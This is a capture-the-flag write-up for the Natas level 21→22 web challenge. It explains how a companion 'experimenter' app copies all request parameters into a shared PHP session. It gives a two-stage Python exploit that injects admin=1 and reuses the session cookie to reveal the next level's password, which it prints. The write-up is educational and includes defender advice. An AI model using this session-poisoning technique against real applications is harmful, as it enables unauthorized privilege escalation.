

# Natas Level 21 → 22

**Vulnerability:** Cross-Application Session Sharing via Session Poisoning
**Difficulty:** Hard
**Tools Used:** Browser, Source Code Review, Python, requests
**OWASP Category:** A01 Broken Access Control
**Attack Class:** Session Manipulation

---

### What the level gives you

The main Natas21 application displays a message indicating that only administrators can retrieve the credentials for the next level. A second application, hosted on a different subdomain (`natas21-experimenter`), allows users to modify styling parameters that are stored in the PHP session.

Both applications use PHP sessions. Source code is provided for both sites, making it possible to inspect how session data is created and consumed.

---

### Vulnerability theory

Session-based applications rely on server-side storage to maintain user state. The browser only stores a session identifier, while the application stores attributes such as usernames, roles, or privilege levels inside the session object.

A common security assumption is that different applications maintain separate trust boundaries. If two applications share session storage or trust the same session identifier without proper isolation, one application may be able to modify data that another application later trusts.

In this level, the experimenter application allows arbitrary request parameters to be written into the session. The primary application later checks the value of `$_SESSION["admin"]` to determine whether a user is an administrator. Because both applications share session state, an attacker can inject administrative values through the weaker application and then reuse the resulting session in the protected application.

The attack primitive provided is privilege escalation through session poisoning.

---

### Source code analysis

The experimenter application contains the critical flaw:

```php
session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
    }
}
```

Analysis:

```php
foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
}
```

- Every request parameter is copied directly into the session.
- No whitelist validation is performed.
- No filtering exists for privileged attributes.
- An attacker can create arbitrary session variables.

Debug mode reveals session contents:

```php
if(array_key_exists("debug", $_GET)) {
    print_r($_SESSION);
}
```

Using debug mode confirms that arbitrary values are being stored.

The main application performs authorization using:

```php
function print_credentials() {

    if($_SESSION and
       array_key_exists("admin", $_SESSION) and
       $_SESSION["admin"] == 1) {

        print "You are an admin.";
        ...
    }
}
```

Developer assumption:

```php
$_SESSION["admin"]
```

is trusted.

The experimenter application allows attackers to create that value themselves.

---

### Approach

My first step was reviewing the source code of both applications. The main application clearly required `$_SESSION["admin"] == 1` before revealing credentials.

The challenge became determining how to create that value. The experimenter application source code revealed that every submitted parameter was written directly into the PHP session.

To verify this behavior, I enabled debug mode and observed the session contents. After submitting an `admin=1` parameter, the session output showed the value being stored successfully.

The remaining challenge was transferring that session into the primary application. Since both applications shared session state, I captured the session identifier generated by the experimenter site and reused it when requesting the main site.

Once the poisoned session was presented to the main application, the authorization check passed and administrative credentials were disclosed.

---

### Exploitation

Stage 1 — Poison the session on the experimenter application.

```python
#!/usr/bin/env python3

import requests

natas21_username = "natas21"
natas21_password = "CURRENT_PASSWORD"

experimenter_url = "http://natas21-experimenter.natas.labs.overthewire.org/"

experimenter_data = {
    "debug": "",
    "submit": "",
    "admin": 1
}

response1 = requests.post(
    experimenter_url,
    data=experimenter_data,
    auth=(natas21_username, natas21_password)
)

phpsessionid = response1.cookies["PHPSESSID"]
```

Stage 2 — Reuse the poisoned session against the protected application.

```python
main_url = "http://natas21.natas.labs.overthewire.org/"

cookies = {
    "PHPSESSID": phpsessionid
}

response2 = requests.get(
    main_url,
    cookies=cookies,
    auth=(natas21_username, natas21_password)
)

print(response2.text)
```

Result:

```text
You are an admin.
The credentials for the next level are:

Username: natas22
Password: d8rwGB10Xslg3b76uh3fEbSlnOUBlozz
```

---

### Screenshot



---

### Real-world relevance

This vulnerability falls under OWASP A01: Broken Access Control. Similar issues appear in enterprise environments where multiple applications share authentication infrastructure but fail to isolate authorization data.

Real-world examples include shared Redis session stores, shared PHP session directories, and legacy SSO deployments where one application can write data trusted by another. During VAPT engagements, session poisoning frequently leads to privilege escalation without exploiting authentication itself.

---

### Defender's perspective

Session data should never be populated directly from untrusted request parameters. Sensitive attributes such as roles and privilege levels must be generated exclusively by server-side authorization logic.

Applications sharing authentication infrastructure should maintain strict session namespaces and separate privilege contexts. WAF monitoring can detect suspicious attempts to inject administrative parameters, while SOC teams can alert on unexpected creation of privileged session attributes.

---

### What I'd do differently

Instead of manually inspecting debug output, I would automate session enumeration and validation to confirm exactly which attributes can be injected into the shared session store.